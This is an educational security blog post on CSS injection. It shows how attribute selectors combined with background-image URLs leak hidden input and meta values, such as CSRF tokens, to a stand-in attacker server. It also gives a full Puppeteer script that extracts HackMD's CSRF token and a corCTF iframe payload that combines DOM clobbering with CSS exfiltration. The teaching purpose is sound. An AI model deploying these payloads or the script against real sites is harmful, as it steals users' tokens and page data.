

# CSS Injection: Attacking with Just CSS (Part 1)

In the previous blog posts, we have seen various attacks such as Prototype Pollution and DOM clobbering, which manipulate the execution of JavaScript to produce unexpected results. In other words, JavaScript is ultimately responsible for the impact caused by these attacks.

Now, let's explore a few attack techniques that can have an impact without the need for JavaScript. The first one we will discuss is CSS injection.

If you have experience with front-end development, you may already know that CSS is a powerful tool. For example, you can create:

1. [Tic-tac-toe](https://codepen.io/alvaromontoro/pen/vwjBqz)
2. [Bullet hell game](https://codepen.io/i0z/pen/AwYbda)
3. [3D game](https://garethheyes.co.uk/)

Yes, you read that right. These examples are created using pure CSS and HTML, without a single line of JavaScript. CSS is indeed magical.

But how can CSS be used as a means of attack? Let's continue exploring.

## What is CSS Injection?

As the name suggests, CSS injection refers to the ability to insert any CSS syntax or, more specifically, use the `<style>` tag on a web page. You might wonder why such a situation exists.

In my opinion, there are two common scenarios. The first one is when a website filters out many tags but overlooks the `<style>` tag, considering it harmless. For example, DOMPurify, which is commonly used for sanitization, filters out various dangerous tags by default, leaving only safe ones like `<h1>` or `<p>`. However, `<style>` is included in the default list of safe tags. Therefore, if no specific parameters are set, `<style>` will not be filtered out, allowing attackers to inject CSS.

The second scenario is when HTML can be injected but JavaScript execution is prevented due to Content Security Policy (CSP). In this case, since JavaScript cannot be executed, attackers resort to using CSS to perform malicious actions.

So, what can be achieved with CSS injection? Isn't CSS just used for styling web pages? Can changing the background color of a webpage be considered an attack?

## Stealing Data with CSS

While CSS is primarily used for styling web pages, it can be combined with two features to steal data.

The first feature is attribute selectors.

In CSS, there are several selectors that can target elements with attributes that meet certain conditions. For example, `input[value^=a]` selects elements where the value starts with `a`.

Some similar selectors include:

1. `input[value^=a]` (prefix) selects elements with values starting with `a`.
2. `input[value$=a]` (suffix) selects elements with values ending with `a`.
3. `input[value*=a]` (contains) selects elements with values containing `a`.

The second feature is the ability to make requests using CSS, such as loading a background image from a server, which essentially sends a request.

Let's say we have the following content on a webpage: `<input name="secret" value="abc123">`. If I can inject CSS, I can write the following:

``` css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

What will happen?

Since the first rule successfully targets the corresponding element, the background of the input will be an image from a server, causing the browser to send a request to `https://myserver.com?q=a`.

Therefore, when the server receives this request, it knows that the "value" attribute of the input starts with the letter "a," successfully stealing the first character.

This is why CSS can be used to steal data. By combining attribute selectors with the ability to load images, the server can determine the attribute value of a specific element on the webpage.

Now that we have confirmed that CSS can steal attribute values, let's address two questions:

1. What can be stolen?
2. You only demonstrated stealing the first character, how can the second character be stolen?

Let's start with the first question. What can be stolen? Usually, sensitive data, right?

The most common target is the CSRF token. If you are not familiar with CSRF, I will discuss it in a future article.

In simple terms, if the CSRF token is stolen, it can lead to CSRF attacks. Just think of this token as something important. Typically, the CSRF token is stored in a hidden input field, like this:

``` html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```

How can we steal the data inside?

## Stealing hidden input

For hidden inputs, our previous method won't work:

``` css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

Because the input type is hidden, this element will not be displayed on the screen. Since it is not displayed, the browser does not need to load the background image, so the server will not receive any requests. This restriction is very strict, and even using `display:block !important;` cannot override it.

What should we do then? No worries, we have another selector option, like this:

``` css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

There is an additional `+ input` at the end. This plus sign is another selector, meaning "select the element that comes after." So, when combined, the selector means "I want to select the input with the name 'csrf-token' and the value starting with 'a,' which comes after the input with the name 'username'." In other words, `<input name="username">`.

Therefore, the background image is actually loaded by another element, which does not have `type=hidden`, so the image will be loaded normally.

But what if there are no other elements after it? Like this:

``` html
<form action="/action">
  <input name="username">
  <input type="submit">
  <input type="hidden" name="csrf-token" value="abc123">
</form>
```

In this case, in the past, it would have been impossible because CSS did not have a selector to select "previous elements." But now it's different because we have [:has](https://developer.mozilla.org/en-US/docs/Web/CSS/:has). This selector can select "elements below that meet specific conditions," like this:

``` css
form:has(input[name="csrf-token"][value^="a"]){
  background: url(https://example.com?q=a)
}
```

This means I want to select the form "below (the input that meets that condition)." So, the form will be the one loading the background, not the hidden input. This `:has` selector is quite new and officially supported starting from Chrome 105, released at the end of August 2022. Currently, only the stable version of Firefox does not support it yet. For more details, see: [caniuse](https://caniuse.com/css-has)


With `:has`, we are basically invincible because we can specify which parent element changes the background. So, we can select however we want.

## Stealing meta

Apart from putting data in hidden inputs, some websites also put data in `<meta>` tags, for example, `<meta name="csrf-token" content="abc123">`. Meta tags are also invisible elements. How can we steal them?

First, as mentioned at the end of the previous paragraph, `has` is an absolute way to steal them. We can do it like this:

``` css
html:has(meta[name="csrf-token"][content^="a"]) {
  background: url(https://example.com?q=a);
}
```

But besides that, there are other ways to steal them.

Although `<meta>` tags are also invisible, unlike hidden inputs, we can make this element visible using CSS:

``` css
meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```


But this is not enough. You will notice that the request is still not sent. This is because `<meta>` is under `<head>`, and `<head>` has the default `display:none` property. Therefore, we also need to set `<head>` specifically to make `<meta>` "visible":

``` css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

By writing it like this, the browser will send the request. However, nothing will be displayed on the screen because, after all, `content` is an attribute, not an HTML text node, so it will not be displayed on the screen. But the `meta` element itself is actually visible, which is why the request is sent:


If you really want to display the content on the screen, it can be done by using pseudo-elements with `attr`:

``` css
meta:before {
    content: attr(content);
}
```

Then you will see the content inside the meta tag displayed on the screen.

Finally, let's look at a practical example.

## Stealing data from HackMD

HackMD's CSRF token is placed in two locations, one is a hidden input, and the other is a meta tag, with the following content:

``` html
<meta name="csrf-token" content="h1AZ81qI-ns9b34FbasTXUq7a7_PPH8zy3RI">
```

And HackMD actually supports the use of `<style>`, this tag will not be filtered out, so you can write any style. The related CSP is as follows:

```
img-src * data:;
style-src 'self' 'unsafe-inline' https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com https://fonts.gstatic.com https://*.disquscdn.com;
font-src 'self' data: https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com https://script.hotjar.com; 
```

As you can see, `unsafe-inline` is allowed, so you can insert any CSS.

After confirming that CSS can be inserted, you can start preparing to steal data. Remember the unanswered question earlier, "How to steal characters after the first one?" Let me answer using HackMD as an example.

First, CSRF tokens usually change when the page is refreshed, so you cannot refresh the page. Fortunately, HackMD supports real-time updates. Whenever the content changes, it is immediately reflected on other clients' screens. Therefore, it is possible to "update styles without refreshing." The process is as follows:

1. Prepare the style to steal the first character and insert it into HackMD.
2. The victim opens the page.
3. The server receives the request for the first character.
4. The server updates the HackMD content and replaces it with the payload to steal the second character.
5. The victim's page updates in real-time and loads the new style.
6. The server receives the request for the second character.
7. Repeat this process until all characters are stolen.

A simple diagram of the flow is as follows:



The code is as follows:

``` js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// Create a hackMD document and let anyone can view/edit
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // cancel request to self
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}
```

You can run it directly with Node.js. After running it, open the corresponding document in the browser, and you can see the progress of the leak in the terminal.

However, even if you manage to steal HackMD's CSRF token, you still cannot perform CSRF attacks because HackMD checks other HTTP request headers on the server, such as origin or referer, to ensure that the request comes from a legitimate source.

## CSS injection combined with other vulnerabilities

In the world of cybersecurity, creativity and imagination are essential. Sometimes, combining several small vulnerabilities can increase the severity. In this case, I want to share a CTF challenge that combines CSS injection with another vulnerability, which I find quite interesting.


The target to attack is a blog website written in React, and the goal is to successfully steal data from the `/home` page. You can add articles, and the content of the articles is rendered using the following method:

``` html
<div dangerouslySetInnerHTML={{ __html: body }}></div>
```

As mentioned before, modern frontend frameworks automatically encode the output, so there is no need to worry about XSS issues. However, `dangerouslySetInnerHTML` in React means "It's okay, just set `innerHTML` directly," so you can insert any HTML here. But the problem is the CSP rules: `script-src 'self'; object-src 'none'; base-uri 'none';`.

These rules are very strict. `script` can only be loaded from the same origin, while other elements like style have no restrictions. Obviously, we can use CSS injection to steal data from the page.

However, there is another problem. The URL of the articles is `/posts/:id`, and the data we want to steal is on the `/home` page. CSS cannot affect other pages. Even if we can use an iframe to embed the `/home` page, we cannot inject style into that page.

What can we do in this case?

At this point, I thought of a trick: using the iframe element with srcdoc, we can create a new page where we can render the React App again:

``` html
<iframe srcdoc="
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

However, the console shows an error related to react-router:


> DOMException: Failed to execute 'replaceState' on 'History': A history state object with URL 'about:srcdoc' cannot be created in a document with origin 'http://localhost:8080' and URL 'about:srcdoc'.

react-router is a library used for frontend routing. The basic usage looks like this, specifying which component corresponds to which path:

``` js
ReactDOM.createRoot(document.getElementById('root')).render(
  <React.StrictMode>
    <ChakraProvider>
      <BrowserRouter>
        <Routes>
          <Route path="/" element={<Index />} />
          <Route path="/register" element={<Register />} />
          <Route path="/login" element={<Login />} />
          <Route path="/home" element={<Home />} />
          <Route path="/post/:id" element={<Post />} />
        </Routes>
      </BrowserRouter>
    </ChakraProvider>
  </React.StrictMode>
);
```

Have you ever wondered how it determines the current path? If you look at the code of [createBrowserHistory](https://github.com/remix-run/history/blob/dev/packages/history/index.ts#L364), you can see the following section:

``` js
export function createBrowserHistory(
  options: BrowserHistoryOptions = {}
): BrowserHistory {
  let { window = document.defaultView! } = options;
  let globalHistory = window.history;

  function getIndexAndLocation(): [number, Location] {
    let { pathname, search, hash } = window.location;
    // ...
  }

  // ...
}
```

It is ultimately determined by `window.location.pathname`, and the key point is that this `window` comes from `document.defaultView`, in short, `document.defaultView.location.pathname`.

What does this mean? It means that we can override it with DOM clobbering!

Previously, we mentioned that we cannot override existing window properties, so we cannot override `window.location`. However, it is different for `document`; we can override `document`.

If we place an `<iframe name=defaultView src="/home">` on the page, then `document.defaultView` will be the contentWindow of this iframe, and the src here is `/home`, which is same-origin. Therefore, we can access `document.defaultView.location.pathname` and obtain the pathname of the `/home` page, rendering the content of the home page inside the iframe.

In this way, we can combine it with the CSS injection we discovered earlier. An example is shown below:

``` html
<iframe srcdoc="
  iframe /home below<br>
  <iframe name=defaultView src=/home></iframe><br>
  iframe /home above<br>
  <style>
    a[href^="/post/0"] {
      background: url(//myserver?c=0);
    }

    a[href^="/post/1"] {
      background: url(//myserver?c=1);
    }
  
  </style>

  react app below<br>
  <div id=root></div>
  <script type=module crossorigin src=/assets/index.7352e15a.js></script>
" height="1000px" width="500px"></iframe>
```

The interface will look like this:


We re-rendered a React app in the srcdoc of the iframe, and through DOM clobbering, this React app rendered another page. By using CSS injection, we can steal data and achieve our goal.

This question is from the corCTF 2022 modernblog challenge. For more details, you can refer to my previous detailed explanation in English: [corCTF 2022 writeup - modernblog](https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/)

## Summary

In this post, we have seen the principle of using CSS to steal data, which boils down to using the "attribute selector" combined with the "loading image" functionality. We have also demonstrated how to steal data from hidden inputs and meta tags, using HackMD as a practical example.

However, there are still some unresolved issues, such as:

1. HackMD can load new styles without refreshing the page due to its real-time content synchronization. What about other websites? How can we steal characters beyond the first one?
2. If we can only steal one character at a time, will it take a long time? Is it feasible in practice?
3. Is there a way to steal things other than attributes? For example, the text content on the page or even JavaScript code?
4. What are the defense mechanisms against this attack technique?

These questions will be answered in the next post.
